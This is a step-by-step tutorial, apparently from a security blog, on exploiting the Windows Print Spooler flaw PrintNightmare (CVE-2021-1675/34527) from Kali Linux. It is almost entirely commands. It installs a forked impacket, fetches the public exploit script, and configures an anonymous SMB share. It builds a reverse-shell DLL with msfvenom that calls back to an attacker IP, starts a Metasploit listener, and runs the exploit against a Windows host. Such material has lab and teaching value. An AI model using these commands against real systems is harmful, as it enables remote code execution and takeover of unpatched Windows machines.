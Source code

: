 
### Preparation in Kali

Open a terminal and enter the following commands. This will get an alternate package of impacket and will download the python script needed for this exploit

```powershell
$ cd /tmp/
$ sudo pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ sudo python3 ./setup.py install
$ wget https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-1.png)

The script will need to download a malicious DLL file. So we need a share and for this, we will create an smb server on kali.

Type in the following command to config the smb server to point to the tmp directory on your kali machine. We are using this tmp directory because when rebooting kali all will be gone. But you can choose any directory you want. Just make sure it has the correct rights to be used as a public share.

```shell
$ sudo nano /etc/samba/smb.conf
```

Put in the following config

```
 [global]
     map to guest = Bad User
     server role = standalone server
     usershare allow guests = yes
     idmap config * : backend = tdb
     smb ports = 445
  
 [smb]
     comment = Samba
     path = /tmp/
     guest ok = yes
     read only = no
     browsable = yes
     force user = smbuser
```

Start the smb server with the following command

```shell
$ sudo service smbd restart
```

Now we are going to create the DLL that we will be using to create a reverse shell. Type in the following command and change the IP to your kali machine IP and copy the dll to the tmp directory

```powershell
$ msfvenom  -f dll -p windows/x64/shell_reverse_tcp LHOST=10.0.0.132 LPORT=443 -o reverse.dll

$ cp reverse.dll /tmp
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-2.png)

Next we will start a listener with msfconsole. Type in the following commands

```powershell
$ msfconsole
msf6 > use multi/handler
msf6 > set PAYLOAD windows/x64/shell_reverse_tcp
msf6 > set LHOST 10.0.0.132
msf6 > set LPORT 443
msf6 > run
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-3.png)

## The Exploit the PrintNightmare

Navigate to the tmp directory as that is where we have our py file. Type in the following command to start the exploit. Please do change the IP address to your lab environment. The first Ip is the Windows machine and the second the kali

```
sudo python3 CVE-2021-1675.py test:Welkom123@**10.0.0.117** '[\\10.0.0.132\smb\reverse.dll](file://10.60.20.132/smb/reverse.dll)'
```

![exploit the PrintNightmare](https://www.thedutchhacker.com/wp-content/uploads/2021/07/image-4-1024x876.png)

## Reference

- [CVE-2021-34527 – Security Update Guide – Microsoft – Windows Print Spooler Remote Code Execution Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527)
- [GitHub – cube0x0/CVE-2021-1675: C# and Impacket implementation of PrintNightmare CVE-2021-1675/CVE-2021-34527](https://github.com/cube0x0/CVE-2021-1675)